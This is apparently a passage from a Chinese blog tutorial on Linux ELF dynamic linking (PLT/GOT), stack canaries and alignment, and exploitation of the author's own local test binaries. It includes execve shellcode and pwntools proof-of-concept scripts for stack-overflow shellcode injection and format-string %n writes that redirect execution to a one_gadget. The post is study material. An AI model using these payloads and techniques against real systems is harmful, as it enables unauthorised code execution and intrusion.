再去看`4099d0`会发现就是`00000000004099d0 <_IO_gets>`的函数逻辑，简而言之就是要调用的这些函数的逻辑也被连接器从库函数中单独摘了出来塞入了最终的`ELF`中，但是问题就来了，先前分析过程序运行过程我们就该知道，即使还没有被调用，但是作为`.text`段的数据依然会占用空间资源，那如果是多个程序一起运行并都有调用`gets`的话，对于内存来说这一个函数会出现好几次，且和库函数代码再没有关系了，除非重新链接。





为了解决这些问题，`动态链接`的方式也就随之诞生了，也就是在运行时再进行链接，说白了就是等要用的时候再去填充`函数地址空位`，这种方式又叫做`延迟绑定`，既然是延迟绑定自然需要知道要绑定的目标，因此就有了`PLT`方法来实现。
对于程序本身来说，他们以为自己`call`的是`gets`的地址，然而事实上`call`的却是一个中转地址，这个中转地址会在真正被调用时填充起来。
> 为什么不在链接的时候就直接call到真正的地址呢？因为这样虽然也能共用库函数，但是在运行前就得把所有的函数链接好，也是资源的浪费。


通过`PLT`方法是怎么知道真正的函数地址的？不如还是直接来看`ELF`的反汇编。
```
0000000000001179 <main>:
    11a3: e8 c8 fe ff ff callq 1070 <gets@plt>
0000000000001070 <gets@plt>:
    1070: ff 25 c2 2f 00 00 jmpq *0x2fc2(%rip) # 4038 <gets@GLIBC_2.2.5>
    1076: 68 04 00 00 00 pushq $0x4
    107b: e9 a0 ff ff ff jmpq 1020 <.plt>
0000000000001020 <.plt>:
    1020: ff 35 e2 2f 00 00 pushq 0x2fe2(%rip) # 4008 <_GLOBAL_OFFSET_TABLE_+0x8>
    1026: ff 25 e4 2f 00 00 jmpq *0x2fe4(%rip) # 4010 <_GLOBAL_OFFSET_TABLE_+0x10>
    102c: 0f 1f 40 00 nopl 0x0(%rax)
```
`gets@plt`的第一条是一个跳转指令，地址是`0x4038`的位置，通过反编译的内容去看的话这个地址是在`.got.plt`这个节里面的
> 实际的实现上`GOT`是两章表，`.got`用来保存全局变量引用，`.got.plt`用来保存外部函数引用


用`GBD`将程序运行起来，断点到`<gets@plt>`进行单步调试看一下：
```
 → 0x555555555070 <gets@plt+0> jmp QWORD PTR [rip+0x2fc2] # 0x555555558038 <gets@got.plt>
   0x555555555076 <gets@plt+6> push 0x4
   0x55555555507b <gets@plt+11> jmp 0x555555555020
```
这儿要跳转到的是`*0x2fe4(%rip)`，所以查看一下`<gets@got.plt>`的值
```
gef➤ x/4 0x555555558038
0x555555558038 <gets@got.plt>: 0x55555076 0x00005555 0x00000000 0x00000000
```
结果是下一条指令的地址。
> `jmpq *0x2fe4(%rip)`中包含了两个知识，一个是`RIP相对寻址`，另一个就是`AT&T`汇编的语法，代表跳转到存储的绝对地址。


为什么这儿是下一跳？这儿实际上是因为这个函数是初次调用，`GOT`表中还没有记录这个函数地址，需要通过`PLT`方法取地址后写入`GOT`，这样等到下次调用时就能够直接跳转了。
下一条指令是`push 0x4`，这个其实很重要，去观察反汇编的时候就能发现每一个`<xxx@plt>`的操作数都是不同的，这个就是`函数ID`动态连接器根据这个id知道解析的函数，这个涉及到`.rel.plt`节的信息。
```
重定位节 '.rela.plt' at offset 0x5e8 contains 5 entries:
  偏移量 信息 类型 符号值 符号名称 + 加数
000000004018 000200000007 R_X86_64_JUMP_SLO 0000000000000000 strcpy@GLIBC_2.2.5 + 0
000000004020 000300000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
000000004028 000400000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000004030 000600000007 R_X86_64_JUMP_SLO 0000000000000000 strcmp@GLIBC_2.2.5 + 0
000000004038 000800000007 R_X86_64_JUMP_SLO 0000000000000000 gets@GLIBC_2.2.5 + 0
```
最左边的偏移量指的是写回`GOT`的位置，这个位置也是对应`<gets@plt>`中第一条指令的取值地址的，这种中转表查询的方式主要是因为：
1. 现代操作系统不允许对代码段进行修改
2. 库函数调用库函数的情况下，如果修改了代码段会影响到其余调用的进程，从而导致不能实现进程共享动态库的目的


关于`PLT`方法的实现，为什么每一个`<xxx@plt>`的最后都是`jmpq <.plt>`？这是因为`.plt`其实是额外实现的一小段代码，目的是为了获得函数地址的，实际调用的是`_dl_runtime_resolve_xsavec`这个函数，负责第一次调用与回填`GOT`。
简而言之，`PLT`是可以说是一张表也可以说是几段函数段，位于`text`段上，而`GOT`这是单纯的存放函数地址的表位于`data`段，之前说过一个动态链接程序的执行的入口其实先是连接器的入口，而在执行`ld-xxx`的时候会将`_dl_runtime_resolve_xsavec`写入`GOT`表中，可以看一下一个程序的`GOT表`就知道预留了哪些位置了。
这是函数方面的调用，那么变量是怎么存储的？按照上面的ELF的执行过程上可以看出来，关于变量实际上要关注到的只有`.text`，`.data`和`.bss`三个段。
`.text`和`.data`都简单理解，一个是存储的代码指令，一个是存储的`初始化后的全局变量/静态变量`，注意一点就是关于`局部变量`，这个其实上属于代码指令，是在运行后才出现在`栈区`的，而`.bss`的解释则是这样的：
```
There is another section called the .bss. This section is like the data section, except that it doesn’t take up space in the executable.
```
用于保存未初始化的`全局/静态变量`，这个段在`ELF`中其实并不占空间，只有运行后才会由系统初始化出大小来。继续说到`局部变量`，因为这还涉及到一个`释放`的问题，`局部变量`都有一个作用域，当脱离这个作用域后生命周期也就可以看作是结束了，然而在栈内存中的值还是一直存在的，直到被覆盖掉，举个栗子：
```
int test()
{
 int a = 9;
}
int test2()
{
 int b = 10;
}
int main(int argc, char *argv[])
{
 int a = 1;
 test();
 test2();
 return 0;
}
```
在`int b = 10`的执行之前`b = 9`。
> 关于变量的入栈顺序上，其实这儿值得注意的一点就是`栈保护机制`的影响，如果没有开启`栈保护机制`，局部变量的入栈顺序是正向的，对于相同类型的变量来说，先声明的变量在高地址上，后声明的在低地址上，而如果开启了`栈保护`后，则是先声明的在低地址上，后声明的在高地址上。


# 关于字节对齐
程序中的每一个函数的栈空间被称为`栈帧`，其中包含了寄存器，局部变量的空间以及参数等，这儿有一个很明显的问题就是参数和变量索占用的空间大小不尽相同，那么在栈上是怎么分配出这个空间的呢？
操作系统对于基本数据类型的合法地址都做了限制，要求某种类型的地址必须是某个值的倍数，例如`char = 1`，`short = 2`,`int = 4`，`long = 8`,这样设计方便了处理器和内存之间接口的硬件设计。
```
举个实际的例子：比如我们在内存中读取一个8字节长度的变量，那么这个变量所在的地址必须是8的倍数。如果这个变量所在的地址是8的倍数，那么就可以通过一次内存操作完成该变量的读取。倘若这个变量所在的地址并不是8的倍数，那么可能就需要执行两次内存读取，因为该变量被放在两个8字节的内存块中了。  -- 清欢Clear
```
在`stackoverflow`上有一个问题：`为什么函数的第一个操作是push rax?`
```
The 64-bit ABI requires that the stack is aligned to 16 bytes before a call instruction.
```
栈的字节对齐实质作用是为了提高效率减少内存的访问次数，但是某些型号的处理器会无法正确执行没有对齐的数据，因此逐渐的`16字节`对齐成了一个标准：
1. 任何内存分配函数生成的块地址起始都是`16`的倍数
2. 大多数函数的栈帧边界都必须是`16`的倍数


这是因为一段函数往往是被`call`的，然而`call`指令的实质是`push + jmp`这会在栈中圧入一个`8字节`的返回地址，导致下一个栈帧的`rsp`无法对齐，因此通过`push rax`将字节对齐，实际上来说`sub rsp,8`也是一样的效果，或者说更为合乎道理。


# 攻击运行起来的程序
缓冲区溢出到命令执行需要什么呢？起码得有个`system`函数可以被调用到，那调用也有两种：
1. `用它的`
2. `用你的`


`用它的`就是从内存中找到一个`system`的地址，然后想办法跳过去，`用你的`就是你写入一段`shellcode`然后再想办法跳过来执行，这样的方式就对`shellcode`的写入位置有要求，比如写在栈上，但是开启了`NX enable`就导致栈上不可执行，但不管怎么样，要求就是某个跳转点可控，就跳转来说一个函数的调用在栈上都是有保存着返回地址的，当函数执行完进行`ret`的时候就会跳回这个函数地址继续执行，缓冲区溢出最常见的攻击手段就是覆盖函数返回地址来劫持执行。


为了解决这种安全问题，`gcc 4.1`以后引入了堆栈保护机制，也就是`Canary技术`，简单来讲就是在`rbp`和`变量`之间放了一个随机值，被称为`金丝雀值(canary)`，同时在`.data`内存区域存放一个副本，在函数返回前会回读这个值与副本比对，倘若发生了改变的话自然就代表有越界行为产生，从而调用`__stack_chk_fail`丢出错误退出进程。





这是现代`gcc`的默认保护选项，但是很明显的一点就是，该检查发生于函数逻辑执行后返回前，那么返回前的缓冲区溢出还是会发生，且在确认发生缓冲区溢出时会进行一个库函数调用，倘若发生了`got覆写`则很容易绕过该机制，同样的如果获取到了`canary值`也是一样的后果。


回过头来看最初的代码吧，`gets`和`strcpy`是两个溢出点，分别溢出的`str[10]`和`buffer[10]`，默认编译后相关的安全机制是：
```
    Arch: amd64-64-little
    RELRO: Partial RELRO
    Stack: Canary found
    NX: NX enabled
    PIE: PIE enabled
```
可以控制的值只有`str`长度为10个字节，如果超过十个字节就会覆盖`canary`导致进入到`__stack_chk_fail`的流程，且开启了`PIE`导致程序加载时会有一个基地址，只能借助`内存地址泄露`这样的漏洞或者通过`/proc/PID/maps`获取到地址信息，如果没有开启`aslr`的话基地址就不会再变了。`NX`安全机制就要求利用`ROP`技术，而`got`的覆写技术要求是能够将指定内容写到指定的地址上也就是起码两个点可控，而且其中一个点得是地址才行。


# 关于shellcode
之前写过关于一点病毒相关的，其中有涉及到shellcode，那就不多说了，直接上代码：
```
.text
.global _start
_start:
 xor %rax,%rax
 push %rax
 movabs $0x68732f2f6e69622f,%rbx 
 push %rbx
 mov %rsp,%rdi
 xor %rdx,%rdx
 xor %rsi,%rsi
 mov $0x3b,%al
 syscall
```
这是关于`getshell`的shellcode，说实话如果`rsi`,`rdx`和`rax`寄存器为`0x0`的情况下，还可以再省下几个字节的空间
```
as -g -o shellcode.o shellcode.s
ld -s -oshellcode shellcode.o
objdump -d shellcode | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'
```
这儿是把所有的安全机制都关闭掉的，那么首选的方式自然是把`shellcode`写到栈上再执行，但是明显是超过溢出的长度了，而考虑到有寄存器为0的情况，所以可以调用`sys_read`来进行任意地址写入，这样的话利用方式就很明显了：
1. 利用溢出点写入`read`的`shellcode`并调整返回值到`read`的开头
2. 将`sys_execve`的`shellcode`写到`rip`的地址上从而继续执行


排除掉`aslr`等安全机制，实际要写入的第一个`shellcode`是：
```
#!/usr/bin/env python
from pwn import *


context(arch = 'amd64', os = 'linux')
def poc():
    p = process('./stackoverflow')
    read_shellcode = '\x50\x48\x89\xe6\x48\x31\xff\xb2\x1c\x0f\x05\x56\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\xe8\xdf\xff\xff\xff\x7f'
    shell_code = '\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xd2\x48\x31\xf6\xb0\x3b\x0f\x05'
    p.sendline(read_shellcode)
    sleep(0.1)
    p.sendline(shell_code)
    p.interactive()
if __name__ == '__main__':
    poc()
```
但是这一个利用的前置条件却很麻烦：
1. `NX`关闭能够在栈上执行代码
2. `stack-protected`关闭能够不受到`canary`影响
3. `aslr`关闭能够指定跳转的地址

# 有关于格式化字符串的一些事情

这是一个很经典的漏洞，甚至在`intel`面试的时候都会询问到相关的问题，甚至说是`Google Search`的首页都是·依靠这个漏洞实现的：

```

printf("%s", a)和printf(a)的写法有什么问题

```

对于`printf`函数来说，它的显性参数格式是这样的:

```

printf(format, arg1, arg2 ,arg3, ....)

```

而在栈结构上，函数的参数是自右向左入栈，这样说可能有点难以理解，不如直接画个图



`format`应当是一个既定字符串，然后依次将`arg1`，`arg2`按照给定的格式填充到`format`的`%`位置，但是如果直接采用的`printf(a)`这种写法且`a`可控的话，那就等于是`format`可控，这导致的结果是把栈上的数据当作是`arg1`，`arg2`等最终输出出来，也就是`内存信息泄露`，但是更为有意思的一点在于`%n`这个控制字符造成的任意地址写漏洞。
```
int n = 0;
printf("12345%n\n", &n);
```
就上面这个代码会修改`n`的值变成`5`，这是因为在`%n`以前打印了5个字符，然后把这个数值填写到`arg1`指向的地址上，而还有一个符号是`$`这个符号是用来指定参数的，哦，他们都称为偏移，但是我就是要说是参数。
```
int n = 0;
int a = 0;
printf("12345%2$n\n", &n, &a);
```
这样的结果自然是`a`成了5，换而言之`%数值c%参数顺序$类型`，就可以同时指定参数和内容，但是用`%c`写入存在极限值：`2147483614`，所以如果长度不够的话还是得补点，而针对`%n`的最大写入是`2147483647(7fffffff)`
> 这个的原因其实很复杂，首先是`%n`的意义是将已输出的字符个数写入到指定的整型指针参数指向的变量，那么就必然存在一个上限问题，就是关于整型长度的，而整型长度其实取决于`编译器`，因为`机器字长`和`系统字长`其实可以并不统一，比如在`64位`架构的电脑上运行`32位`的系统，因此这个问题被抛给了编译器开发商来处理，语言本身只提供了一个基础规定，具体长度还是由编译器根据自身硬件决定：
Each compiler is free to choose appropriate sizes for its own hardware, subject only to the restriction that shorts and ints are at least 16bits, longs are at least 32bits, and short is no longer than int, which is no longer than long.
而就gcc为例，`64`位下的`long`和`long long`都是8个字节，上限就是`2147483647`，而我个人猜测`printf`的内部使用应该是用的通用类型，因此存在这样的上限。


然而`64位`和`32位`的区别就在于`32位`使用了栈帧来保存参数，而`64位`则使用寄存器，但也不是完全使用，而是使用`rdi`,`rsi`,`rdx`,`rcx`,`r8`,`r9`保存`1-6`个参数，而多的参数则从`rsp`开始继续保存在栈中，比如第七个保存在`[rsp+8]`，第八个则在`[rsp+16]`，这也是因为`64位`取消了栈帧的设定，`rbp`作为通用寄存器来使用而非栈帧指针，所以上图其实近适用于`32位`的程序。

举个代码上的例子：
```
int main()
{
  char a[1024];
  scanf("%s",a);
  printf(a);
  return 0;
}
```
程序上有一个比较明显的缓冲区溢出漏洞，就先放一个不开起安全机制的POC。
```
#!/usr/bin/env python
from pwn import *


context(arch = 'amd64', os = 'linux')
def poc():
    p = process('./format-test-1')
    shellcode = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xab\x5f\xeb\xf7\xff\x7f'
    p.sendline(shellcode)
    sleep(0.1)
    p.interactive()
if __name__ == '__main__':
    poc()
```
同样的，也存在一个很明显的格式化字符串漏洞，但因为只有一次写入的机会，所以想用`one_gadget`，但问题就是单次写入的上限导致完全写不出这个地址，没有特殊的代码逻辑，无循环状态下获取shell目前看起来是GG了，有一种使得程序循环的方式是在`.fini_array`覆盖成`main`函数的地址，然而我本身的程序这个地址是不可写的，所以无限循环的能力也杜绝了，`x64`确实比较麻烦。
> 记录一下我的`one_gadget`地址是`7FFFF7EB5FAB`，可惜这么一个地址至少也得发生两次写入才能实现

但是幸运的是`scanf`会主动引入`\x00`，那么只要合理的利用`scanf`就可以控制`\x00`的位置从而成功写入多个地址，总之经过一番折腾和调试，搞出来的POC如下：
```
#!/usr/bin/env python
# encode:utf-8
from pwn import *


context(arch = 'amd64', os = 'linux')
def poc():
    p = process('./format-test-1')
    
    sleep(1)

    #注入循环scanf的地址
    payload_1 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe8\xdb\xff\xff\xff\x7f"
    p.sendline(payload_1)
    sleep(0.1)
    

    #注入\x00
    payload_2 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    p.sendline(payload_2)
    sleep(0.1)


    #注入第一个地址
    payload_3 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x08\xe0\xff\xff\xff\x7f"
    p.sendline(payload_3)
    sleep(0.1)


    #注入\x00
    payload_4 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    p.sendline(payload_4)
    sleep(0.1)
    
    #注入第二个地址 \x09-\x0d无法写入，所以随便写一个
    payload_5 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xff\xe0\xff\xff\xff\x7f"
    p.sendline(payload_5)
    sleep(0.1)
    

    #修改\xff为\x09，_tmp的步骤不一定有，完全看运气了
    payload_tmp_1 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    p.sendline(payload_tmp_1)
    sleep(0.1)
    
    payload_tmp_2 = "%160c%15$hhnaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x28\xdc\xff\xff\xff\x7f"
    p.sendline(payload_tmp_2)
    sleep(0.1)
    
    payload_tmp_3 = "%9c%12$hhn%151c%15$hhn"
    p.sendline(payload_tmp_3)
    sleep(0.1)
    
    #修改程one_gadget地址
    payload_6 = '%171c%14$hhn%60084c%13$hn'
    #payload_6 = "%14$lx.%13$lx"
    p.sendline(payload_6)
    p.interactive()

    #print(p.recv())

if __name__ == '__main__':
    poc()
```
这是开了保护的，只关闭了`aslr`，而如果是实战环境中，则还是需要先爆破地址出来才好解决。


# 后记
终于是把这篇文章了结了，零碎着花了两个月来研究，收获不算少，把先前的零零散散的知识点又总结了一遍加深了印象，也算是为了跳槽作准备吧，免得面试都过不了，至于深化攻击，比如各种绕过啊，ROP什么的攻击技巧，那都是在认识以后才能慢慢接触的，水到渠成吧，推荐一个文章说的很详细[[ROP] Easy method](https://quentinmeffre.fr/pwn/2017/01/25/easy_method.html)


# 参考资料
* [手把手教你栈溢出从入门到放弃（上）](https://zhuanlan.zhihu.com/p/25816426)
* [内存管理之用户空间](https://blog.csdn.net/Tanswer_/article/details/78764778)
* [Linux内核装载和启动一个可执行文件](https://www.jianshu.com/p/84d96a6385b0)
* [理解 Linux Kernel (13) - 虚拟内存](https://www.ffutop.com/posts/2019-07-17-understand-kernel-13/)
* [加载地址对于linux中的所有C程序都是通用的](http://www.cocoachina.com/articles/80799)
* [通过elf各种重定位类型理解链接过程](http://www.360doc.com/content/17/1204/19/7377734_709898612.shtml)
* [GOT & PLT (1)](https://www.guildhab.top/?p=621)
* [linux内核exec过程](https://www.cnblogs.com/likaiming/p/11193697.html)
* [Linux程序装载与运行流程分析](https://zhuanlan.zhihu.com/p/53001768)
* [内核中进程的执行流程](https://www.cnblogs.com/wangzahngjun/p/4889816.html)
* [内存-用户空间](https://jin-yang.github.io/post/kernel-memory-management-from-userspace-view.html)
* [sys_execv源碼分析](https://www.twblogs.net/a/5b8798032b71775d1cd7f0ff)
* [c - ELF64 / x86_64和内存映射段的起始地址（用于共享对象）](https://mlog.club/article/238976)
* [new_layout.jpg](https://github.com/novelinux/linux-4.x.y/blob/master/mm/mmap.c/res/new_layout.jpg)
* [Linux X86-64 进程内存空间布局（续）](http://www.lenky.info/archives/2012/04/1424)
* [segfault at 7fff6d99febc ip 0000003688644323 sp 00007fff6d99fd30 error 7 in libc.so.6[3688600000+175000]](https://www.cnblogs.com/svking/)
* [linux内存布局和ASLR](https://zsummer.github.io/2019/11/04/2019-11-04-aslr/)
* [ASLR(Address Space Layout Randomization) - StackTop](https://emmetzc.github.io/2016/11/22/ASLR-StackTop/)
* [Linux上的ASLR限制](https://stackoverflow.com/questions/12734679/aslr-limitations-on-linux)
* [Linux kernel ASLR Implementation](https://xorl.wordpress.com/2011/01/16/linux-kernel-aslr-implementation/)
* [Linux中为什么要随机函数栈的起始地址](https://blog.csdn.net/rrerre/article/details/6729542)
* [Linux ASLR的实现](https://www.cnblogs.com/wangaohui/p/7122653.html)
* [在Linux上开始堆栈](https://stackoom.com/question/3grHX/在Linux上开始堆栈)  
* [init_post](http://heguangyu5.github.io/my-linux/html/20-init_post.html)
* [linux进程管理之可执行文件的加载和运行](https://wenku.baidu.com/view/7f1f1e30b90d6c85ec3ac615.html)
* [Linux中的kmap](https://zhuanlan.zhihu.com/p/69329911)
* [get-user-pages函数详解](https://liujunming.top/2017/07/03/get-user-pages%E5%87%BD%E6%95%B0%E8%AF%A6%E8%A7%A3/)
* [Linux内存管理实践-虚拟地址转换物理地址](http://edsionte.com/techblog/archives/1966)
* [初学者关于模块编程由虚址找物理地址怎么办](http://www.mysql5.com/thread-71516-1-1.html)
* [PAGE_MASK](http://www.voidcn.com/article/p-rrhytmca-bbx.html)
* [CVE-2019-9213：Linux内核用户空间0虚拟地址映射漏洞分析](https://www.secrss.com/articles/9074)
* [copy_from_user分析](https://www.cnblogs.com/rongpmcu/p/7662749.html)
* [LINUX内核中计算页面号](https://blog.csdn.net/chdhust/article/details/8889368)
* [Dirty-COW（CVE-2016-5195）漏洞分析](http://pwn4.fun/2017/07/14/Dirty-COW%EF%BC%88CVE-2016-5195%EF%BC%89%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
* [系统调用之mprotect源码分析（基于linux1.2.13）](https://zhuanlan.zhihu.com/p/75389533)
* [进程地址空间 find_vma()](https://blog.csdn.net/u013592097/article/details/51564646)
* [与虚拟内存区域有关的操作（2）-合并内存区域](http://edsionte.com/techblog/archives/3586)
* [Linux内存管理 (9)mmap(补充)](https://www.cnblogs.com/arnoldlu/p/9367253.html)
* [load_elf_binary中使用的内存映射机制](https://blog.csdn.net/edwardlulinux/article/details/7998433)
* [[转]linux中ELF加载过程分析](https://www.iteye.com/blog/u010837360-2068750)
* [Linux内核中ELF可执行文件的装载/load_elf_binary()函数解析](https://blog.51cto.com/2ndmoon/1283730)
* [Elf32_Phdr的p_filesz和p_memsz之间的差异](http://cn.voidcc.com/question/p-upmfdvyi-bme.html)
* [C 加载过程](https://jin-yang.github.io/post/program-c-load-process.html)
* [[翻譯] 程式是如何啟動的（下）：ELF 二進位檔](https://alittleresearcher.blogspot.com/2016/12/how-programs-get-run-elf-binaries.html)
* [linux elf加载过程](https://www.twblogs.net/a/5b84705b2b71775d1cd0beca/zh-cn)
* [Linux中的GOT和PLT到底是个啥？](https://www.freebuf.com/articles/system/135685.html)
* [深入浅出静态链接和动态链接](https://blog.csdn.net/kang___xi/article/details/80210717)
* [聊聊Linux动态链接中的PLT和GOT（３）——公共GOT表项](https://blog.csdn.net/linyt/article/details/51637832)
* [浅析ELF中的GOT与PLT](https://blog.csdn.net/u011987514/article/details/67716639)
* [x64下PIC的新寻址方式：RIP相对寻址](https://www.polarxiong.com/archives/x64%E4%B8%8BPIC%E7%9A%84%E6%96%B0%E5%AF%BB%E5%9D%80%E6%96%B9%E5%BC%8F-RIP%E7%9B%B8%E5%AF%B9%E5%AF%BB%E5%9D%80.html)
* [现代Linux操作系统的栈溢出](https://www.freebuf.com/articles/system/24177.html)
* [Canary栈保护机制](https://blog.csdn.net/ALPS233/article/details/102736299)
* [关于Linux下ASLR与PIE的一些理解](https://www.cnblogs.com/rec0rd/p/7646857.html)
* [x86_64 Linux 运行时栈的字节对齐](https://www.cnblogs.com/tcctw/p/11333743.html)
* [Why does this function push RAX to the stack as the first operation?](https://stackoverflow.com/questions/37773787/why-does-this-function-push-rax-to-the-stack-as-the-first-operation)
* [局部变量申请栈空间时的入栈顺序](https://blog.csdn.net/weixin_33881140/article/details/89680814)
* [64位和32位的寄存器和汇编的比较](https://blog.csdn.net/qq_29343201/article/details/51278798)
* [【整理笔记】格式化字符串漏洞梳理](https://sec.mrfan.xyz/2018/10/23/%E3%80%90%E6%95%B4%E7%90%86%E7%AC%94%E8%AE%B0%E3%80%91%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/)
* [一步一步学ROP之linux_x64篇](https://zhuanlan.zhihu.com/p/23537552)
* [64 位 elf 的 one_gadget 通杀思路](https://xz.aliyun.com/t/6598)
* [一步一步学ROP之gadgets和2free篇](https://wooyun.js.org/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8Bgadgets%E5%92%8C2free%E7%AF%87.html)
* [[ROP] Easy method](https://quentinmeffre.fr/pwn/2017/01/25/easy_method.html)
* [Linux X86 程序启动 – main函数是如何被执行的？](https://luomuxiaoxiao.com/?p=516)
* [用printf()调用实现web服务器](https://segmentfault.com/a/1190000000516072)
* [](https://b0ldfrev.gitbook.io/note/pwn/zhong-xie-.finiarray-han-shu-zhi-zhen)